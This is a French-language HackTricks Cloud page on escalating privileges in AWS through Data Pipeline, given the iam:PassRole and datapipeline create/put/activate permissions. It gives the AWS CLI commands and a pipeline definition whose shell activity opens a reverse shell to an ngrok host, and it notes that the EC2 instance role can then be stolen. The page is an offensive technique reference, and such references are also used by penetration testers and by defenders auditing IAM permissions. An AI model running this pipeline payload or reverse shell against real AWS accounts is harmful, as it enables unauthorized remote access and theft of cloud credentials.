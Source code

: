 # AWS - Privilège d'escalade de Datapipeline

<details>

<summary><strong>Soutenez HackTricks et bénéficiez d'avantages !</strong></summary>

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou si vous souhaitez accéder à la **dernière version de PEASS ou télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop) !
* Obtenez le [**swag officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**The PEASS Family**](https://opensea.io/collection/the-peass-family), notre collection d'[**NFTs**](https://opensea.io/collection/the-peass-family) exclusifs
* **Rejoignez** 💬 [**le groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez** moi sur **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm).
* **Partagez vos astuces de piratage en soumettant des PR aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **dépôts Github.**

</details>

## datapipeline

Pour plus d'informations sur datapipeline, consultez :

{% content-ref url="../aws-services/aws-datapipeline-codepipeline-codebuild-and-codecommit.md" %}
[aws-datapipeline-codepipeline-codebuild-and-codecommit.md](../aws-services/aws-datapipeline-codepipeline-codebuild-and-codecommit.md)
{% endcontent-ref %}

### `iam:PassRole`, `datapipeline:CreatePipeline`, `datapipeline:PutPipelineDefinition`, `datapipeline:ActivatePipeline`

Un attaquant disposant des autorisations **`iam:PassRole`, `datapipeline:CreatePipeline`,  `datapipeline:PutPipelineDefinition,`** et **`datapipeline:ActivatePipeline`** serait en mesure d'escalader les privilèges en **créant un pipeline et en le mettant à jour pour exécuter une commande AWS CLI arbitraire ou créer d'autres ressources**, une fois ou à intervalles réguliers, avec les autorisations du rôle qui a été transmis.

```bash
aws datapipeline create-pipeline --name my_pipeline \
    --unique-id unique_string
```

Cela créera un pipeline vide. L'attaquant doit ensuite **mettre à jour la définition du pipeline** pour lui dire quoi faire, avec une commande comme celle-ci :

```json
{
     "objects": [
     {
         "id" : "CreateDirectory",
         "type" : "ShellCommandActivity",
         "command" : "bash -c 'bash -i >& /dev/tcp/8.tcp.ngrok.io/13605 0>&1'",
         "runsOn" : {"ref": "instance"}
     },
     {
         "id": "Default",
         "scheduleType": "ondemand",
         "failureAndRerunMode": "CASCADE",
         "name": "Default",
         "role": "assumable_datapipeline",
         "resourceRole": "assumable_datapipeline"
     },
     {
         "id" : "instance",
         "name" : "instance",
         "type" : "Ec2Resource",
         "actionOnTaskFailure" : "terminate",
         "actionOnResourceFailure" : "retryAll",
         "maximumRetries" : "1",
         "instanceType" : "t2.micro",
         "securityGroups" : ["default"],
         "role" : "assumable_datapipeline",
         "resourceRole" : "assumable_ec2_profile_instance"
     }]
}
```

{% hint style="info" %}
Notez que le **rôle** dans **la ligne 14, 15 et 27** doit être un rôle **assumable par datapipeline.amazonaws.com** et le rôle dans **la ligne 28** doit être un **rôle assumable par ec2.amazonaws.com avec un profil EC2 instance**.

De plus, l'instance EC2 n'aura accès qu'au rôle assumable par l'instance EC2 (vous ne pouvez donc voler que celui-ci).
{% endhint %}

```
aws datapipeline put-pipeline-definition --pipeline-id unique_string \
    --pipeline-definition file:///path/to/my/pipeline/definition.json
```

Où le **fichier de définition de pipeline contient une directive pour exécuter une commande** ou créer des ressources en utilisant l'API AWS qui pourrait aider l'attaquant à obtenir des privilèges supplémentaires.

**Impact potentiel :** Privilège d'escalade directe vers le rôle de service ec2 spécifié.